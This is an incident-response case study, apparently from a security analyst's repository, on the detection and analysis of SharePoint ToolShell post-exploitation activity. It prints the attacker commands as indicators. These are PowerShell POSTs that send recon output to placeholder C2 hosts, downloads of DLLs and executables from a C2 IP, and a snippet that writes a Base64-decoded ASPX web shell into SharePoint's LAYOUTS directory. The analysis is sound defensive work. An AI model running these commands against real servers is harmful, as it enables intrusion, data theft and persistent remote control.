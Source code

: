 # Case Study 001 - SharePoint ToolShell Exploitation Attempt (CVE-2025-49706, CVE-2025-53770, CVE-2025-49704)

> - **Severity:** High
> - **Date:** July 2025
> - **Framework:** MITRE ATT&CK - T1190 Exploit Public-Facing Application


## Overview
The SharePoint ToolShell vulnerabilities include a chain of critical flaws disclosed in 2025.
- **[CVE-2025-49706](https://nvd.nist.gov/vuln/detail/CVE-2025-49706 "https://nvd.nist.gov/vuln/detail/CVE-2025-49706")** allows attackers to bypass authentication mechanisms.
- **[CVE-2025-49704](https://nvd.nist.gov/vuln/detail/CVE-2025-49704 "https://nvd.nist.gov/vuln/detail/CVE-2025-49704")** enables arbitrary file writes, which can be leveraged to achieve remote code execution without valid credentials.
- Two additional variants, **CVE-2025-53771** (derived from CVE-2025-49706) and [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770 "https://nvd.nist.gov/vuln/detail/CVE-2025-53770") (derived from CVE-2025-49704), were later identified through fuzzing research.

Together, these vulnerabilities present a high-risk attack surface where unauthenticated adversaries can gain full control of vulnerable SharePoint instances.

## Detection & Analysis
- Initial alert triggered in **Stellar Cyber XDR** (High Severity).
- **Correlated telemetry:** Microsoft Defender for Endpoint indicated `w3wp.exe` (IIS worker) spawning PowerShell and `cmd.exe` processes consistent with post-exploit activity.

#### Observed behaviors:
- **Recon & data exfil** via `Invoke-WebRequest` **HTTP POST** to external hosts:
    
    - `$(whoami /all)`, `$(systeminfo)`, `$(tasklist /v)`, `$(netstat -ano)`, directory listings of SharePoint and user profile paths.
        
- **Web app & SharePoint enumeration**:
    
    - `appcmd list app /text:[path='/'].physicalPath`, listings under `C:\inetpub\wwwroot\wss\VirtualDirectories\...` and `...\App_GlobalResources`.
        
- **Artifact download & drop** (cleartext HTTP):
    
    - EXE/DLLs fetched from external IPs/domains and saved under `C:\Users\[SERVICE_ACCOUNT]\AppData\Local\...` and `C:\ProgramData\...`.
        
- **Potential web shell deployment**:
    
    - **Decoded `-EncodedCommand` summary:** writes a **Base64-encoded ASPX file** to SharePoint **LAYOUTS** path as `spinstall0.aspx`:
```
$destinationFile = "C:\PROGRA~1\COMMON~1\MICROS~1\WEBSER~1\16\TEMPLATE\LAYOUTS\spinstall0.aspx"
$decodedContent = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($base64String))
$decodedContent | Set-Content -Path $destinationFile
```
→ This is consistent with **ToolShell-style web shell write** into a globally served SharePoint directory.
- **Other signs**: creation of `0.css` in `App_GlobalResources` (write test / file-drop), and plaintext download of binaries (`SPDesk.exe`, `SPlog.exe`, `log.dll`, `Product.Wsc.dll`, `nvsmartmax64.dll`, `txmlutil.dll`).

#### Representative command patterns:
 ``` 
# Exfil / recon
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(whoami /all)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(systeminfo)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(netstat -ano)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(dir C:\inetpub\wwwroot\wss\VirtualDirectories)

# Artifact downloads
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/asx -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\WebTempDir\SPlog.exe
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/2   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\log.dll
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/3   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\Product.Wsc.dll

# SharePoint/IIS context
w3wp.exe -ap "SharePointWebAppPools" ...
cmd.exe /c C:\Windows\System32\inetsrv\appcmd.exe list app /text:[path='/'].physicalPath

# EncodedCommand (web shell write to LAYOUTS)
cmd.exe /c powershell -EncodedCommand <BASE64>   # decodes and writes spinstall0.aspx to LAYOUTS

 ```

#### Encoded Command:
![[Pasted image 20250925231404.png]]


## Analysis Summary
- The activity observed is consistent with post-exploitation of a SharePoint vulnerability. Adversaries leveraged `w3wp.exe` to spawn PowerShell and `cmd.exe` for:

- **Reconnaissance & Exfiltration** – collecting host details (`systeminfo`, `whoami`, `tasklist`, `netstat`) and directory listings, then exfiltrating results via cleartext HTTP POST to external C2 servers.
    
- **File Write & Payload Delivery** – downloading executables and DLLs into service account directories (`AppData\Local`, `ProgramData`), indicating attempts at persistence or staging.
    
- **Web Shell Deployment** – a Base64-encoded PowerShell payload decoded and wrote an ASPX file (`spinstall0.aspx`) into the SharePoint `LAYOUTS` directory, providing an accessible web shell for remote control.
    
- **SharePoint/IIS Enumeration** – commands targeting `appcmd.exe` and SharePoint resource directories, suggesting knowledge of SharePoint application structure.
    

These behaviors demonstrate a multi-stage attack chain: 
> **Initial Compromise** → **Host Reconnaissance** → **Data Exfiltration** → **Payload Deployment** → **Web Shell Installation for Persistence and Further Exploitation**.

